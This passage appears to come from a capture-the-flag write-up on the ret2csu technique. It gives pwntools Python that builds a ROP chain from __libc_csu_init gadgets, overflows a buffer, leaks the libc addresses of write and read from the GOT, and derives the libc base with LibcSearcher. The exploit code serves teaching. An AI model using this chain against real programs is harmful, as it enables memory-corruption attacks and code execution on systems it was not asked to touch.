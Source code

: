 ```python
```

We can make a function to prepare a ret2_csu_init payload.
```python
def csu(func_addr, edi, rsi, rdx, ret):
	payload = ''
	payload += p64(csu1)		# overwrite ret addr
	payload += p64(0)	 		# rbx 
	payload += p64(1)			# rbp
	payload += p64(func_addr)	# pop r12 -> call qword ptr[r12 + rbx * 8]
	payload += p64(edi)			# pop r13 -> mov edi, r13d
	payload += p64(rsi)			# pop r14 -> mov rsi, r14
	payload += p64(rdx)			# pop r15 -> mov rdx, r15
	payload += p64(csu2)		# after popping everything, we ret to csu2

	# earlier, we set rbx = 0, rbp = 1
	# rbx = rbx + 1 -> rbx = 1
	# rbp = 1
	# cmp rbx, rbp will set ZF=1
	# jne 0x4005d0 will be ignored
	payload += 'a' * 7 * 8		# just fill up the stack, because add rsp, 8 and 6 more pops
	payload += p64(ret)			# return addr
	return payload
```

Now, we can make use of csu to leak `write` and `read` from GOT so that we can infer the libc version.
```py
# addresses
main = elf.symbols['main']
write_got = elf.got['write']
read_got = elf.got['read']

# first step, we want to leak libc version, can do that by leaking GOT entry of write and read
p.recvuntil('Hello, World\n')
log.info('Leaking write libc address')
payload = 'a' * offset
payload += csu(write_got, 1, write_got, 8, main)
p.send(payload)

write_leak = u64(p.recv(8))
log.success("Leaked write libc address: 0x%x" % write_leak)

# leak GOT of read
p.recvuntil('Hello, World\n')
log.info('Leaking read libc address')
payload = 'a' * offset
payload += csu(write_got, 1, read_got, 8, main)
p.send(payload)

read_leak = u64(p.recv(8))
log.success("Leaked read libc address: 0x%x" % read_leak)

# get libc
libc = LibcSearcher('write', write_leak)
libc.add_condition('read', read_leak)
libc_base = write_leak - libc.dump('write')
log.success('Libc base: 0x%x' % libc_base)
```
